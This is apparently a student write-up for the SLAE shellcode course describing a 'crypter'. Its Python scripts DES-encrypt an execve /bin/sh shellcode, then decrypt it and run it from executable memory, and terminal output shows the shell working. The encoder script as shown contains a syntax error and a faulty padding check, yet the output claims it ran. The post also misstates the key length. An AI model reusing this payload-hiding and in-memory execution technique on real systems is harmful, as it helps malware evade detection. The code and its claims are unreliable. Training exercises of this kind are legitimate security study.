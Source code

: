 **Assignment 7**

Create a shellcode crypter
 
For this last SLAE assignment, I’ve created a shellcode crypter using the DES encryption using the pyCrypto library

Refer:https://pypi.org/project/pycrypto/

**Methodology**

	>Cryptor 

		DES Encryption
		Refer : https://en.wikipedia.org/wiki/Data_Encryption_Standard
		its a symmetric key encryption mechanism, due to the short keylength (56 bits) , its not very commonly used.

		For Cryptor a execve /bin/sh shell code is used


		Since the DES Encrypiton process ciphertext in a block of 8 , if the length of the shellcode is not a multiple of 8 , x90 is padded
		x90 , NOP doesnt really do anything ie xchg eax, eax , which wont cause a problem in our shellcode

		Crypter schema is achived using a python script which, takes a shellcode (execve /bin/sh) and padd x90 to make the shellcode a multiple of x90 and use pyCrypto library to encrypt the shellcode using DES
		the 8 bit key used is "aaaaaaaa"

			toor@ubuntu:~/Desktop/slae/Assignments/7$ cat encoder.py                                                                                             [12/288]
			#!/bin/python

			from Crypto.Cipher import DES
			import socket
			import sys
			import urllib


			shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"  #/bin/sh shellcode
			print(shellcode)

			print(" ")
			print("Length of the shellcode is "+str(len(shellcode)))
			print("Original Shellcode ")

			enc1 = ""

			for i in bytearray(shellcode):
 				enc1+="0x"
 				enc1+= "%02x," %(i & 0xff)

			print("----------------------")
			print(enc1.rstrip(','))

			if ((len(shellcode)/8)==0)                                      #check if padding is needed
 				print("boo no padding is required")
			else:
 				padding = 8 * ((len(shellcode)/8)+1) - len(shellcode)
 				shellcode = shellcode + "\x90"*padding                  #appending x90 to make the shellcode length a multiple of 8
 			print("Padding needed , appended  "+str(padding)+"""  \\x90 bytes""")         

			print(len(shellcode))

			cipher = DES.new("aaaaaaaa")                                    #DES encryption key
			encrypted_data = cipher.encrypt(shellcode)											   	#Encryption process

			enc2 = ""
			output= ""

			for i in bytearray(encrypted_data):
		 		enc2+="0x"
	 	 		enc2+= "%02x," %(i & 0xff)
 		 		output += "\\x"
  		 		output += '%02x'% i

			print("Encrypted Shellcode")
			print("----------------------")
			print(enc2.rstrip(','))																							#printing Encrypted shellcode

			print(output)

			toor@ubuntu:~/Desktop/slae/Assignments/7$



	>Decrypter

		Decrypter takes the DES encrypted shellcode and decrypt the shellcode using the same key(symmetric encryption) and run the shellcode


			toor@ubuntu:~/Desktop/slae/Assignments/7$ cat decoder.py
			#!/bin/python

			from Crypto.Cipher import DES
			import socket
			import sys
			from ctypes import CDLL, c_char_p, c_void_p, memmove, cast, CFUNCTYPE
			import os
			
			encrypted_data = "\x9a\xa9\x7d\x8b\xc4\x0f\x1a\xca\xeb\x74\xae\x62\x66\x51\x01\xdd\xc2\x77\x52\xc5\x55\xb9\xdf\xe9\xb0\xbe\xff\xca\x98\x45\xc1\x9a"  
											#DES Encrypted shellcode
			cipher = DES.new("aaaaaaaa")																						#DES decryption key


			shellcode = cipher.decrypt(encrypted_data)                     	#DES Decryption



			libc = CDLL('libc.so.6')																						# Passing control on to the shellcode using libc.so
			#shellcode = shellcode.replace('\\x','').decode('hex')
			sc = c_char_p(shellcode)
			size = len(shellcode)
			addr = c_void_p(libc.valloc(size))
			memmove(addr, sc, size)
			libc.mprotect(addr, size, 0x7)
			run = cast(addr, CFUNCTYPE(c_void_p))
			run()
			toor@ubuntu:~/Desktop/slae/Assignments/7$


**Practical**

Lets take the execve /bin/sh shellcode and use "aaaaaaaaa" key to encrypt using DES

	toor@ubuntu:~/Desktop/slae/Assignments/7$ python encoder.py
	1▒Ph//shh/bin▒▒▒̀

	Length of the shellcode is 25
	Original Shellcode
	----------------------
	0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80
	Padding needed , appended  7  \x90 bytes
	32
	Encrypted Shellcode
	----------------------
	0x9a,0xa9,0x7d,0x8b,0xc4,0x0f,0x1a,0xca,0xeb,0x74,0xae,0x62,0x66,0x51,0x01,0xdd,0xc2,0x77,0x52,0xc5,0x55,0xb9,0xdf,0xe9,0xb0,0xbe,0xff,0xca,0x98,0x45,0xc1,0x9a
	\x9a\xa9\x7d\x8b\xc4\x0f\x1a\xca\xeb\x74\xae\x62\x66\x51\x01\xdd\xc2\x77\x52\xc5\x55\xb9\xdf\xe9\xb0\xbe\xff\xca\x98\x45\xc1\x9a
	toor@ubuntu:~/Desktop/slae/Assignments/7$


Lets take the encrypted payload and decrypt it using the same DES Key 

	toor@ubuntu:~/Desktop/slae/Assignments/7$ python decoder.py
	$ id
	uid=1000(toor) gid=1000(toor) groups=1000(toor),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
	$


	Works like a charm 


**Github Repo**

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509
